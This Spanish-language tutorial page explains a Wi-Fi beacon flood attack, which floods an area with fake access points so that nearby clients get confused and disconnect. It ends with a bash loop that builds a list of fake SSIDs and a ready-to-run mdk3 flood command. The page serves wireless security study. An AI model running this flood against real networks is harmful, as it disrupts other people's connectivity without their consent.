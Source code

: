 
¿De que va este ataque?

| **Ataque Beacon Flood Mode** |
|:-----------:|
| *Este ataque se refiere a la confusión de conectividad de un cliente inalámbrico. Se transmiten innumerables tramas de balizas falsas. Después de un tiempo, las redes inalámbricas disponibles son tantas que el usuario está totalmente confundido y perdido en una gran lista de redes similares.* |

<br>

| **Paquetes Beacon** |
|:-----------:|
| *Los paquetes beacon son emitidos por el AP para que se identifique con otros dispositivos, con el fin de que se puedan conectar al AP. Los paquetes beacon, contienen información importante del AP como el canal, el cifrado, el BSSID, etc.* |

<br>

Lo que haremos será emitir **paquetes beacon falsos**, anunciando un mismo **AP** para que los dispositivos que se vayan a conectar, se confundan y se desconecten, pues se satura con tantos **AP**.

Osea que vamos a crear redes falsas para confundir el dispositivo del usuario para que pruebe varias.

Para hacer esto, usaremos la herramienta **mdk3** (aunque actualmente, ya existe el **mdk4**).

| **Herrmaienta mdk4** |
|:-----------:|
| *Es una herramienta para pruebas de de Wi-Fi desarrollada por el propio proyecto de aircrack-ng. Mdk4 contiene distintos parámetros con subparámetros de ataques, entre ellos, desautenticación y otros más.* |

<br>

Si no la tienes, instálala:
```bash
apt install mdk3
Leyendo lista de paquetes... Hecho
Creando árbol de dependencias... Hecho
Leyendo la información de estado... Hecho
```

Bien, si queremos crear varios **AP** de uno, vamos a crear un diccionario simple con **Bash** de la siguiente manera:
```bash
for i in $(seq 1 10); do echo "Wifi_Salon$i" >> redes.txt; done

cat redes.txt
Wifi_Salon1
Wifi_Salon2
Wifi_Salon3
Wifi_Salon4
Wifi_Salon5
Wifi_Salon6
Wifi_Salon7
Wifi_Salon8
Wifi_Salon9
Wifi_Salon10
```

Ya con este archivo, usemos la herramienta **mdk3** para realizar el ataque, puedes ver sus parámetros con **--help**:
```bash
mdk3 wlan0 b -f redes.txt -a -s 1000 -c 11
```
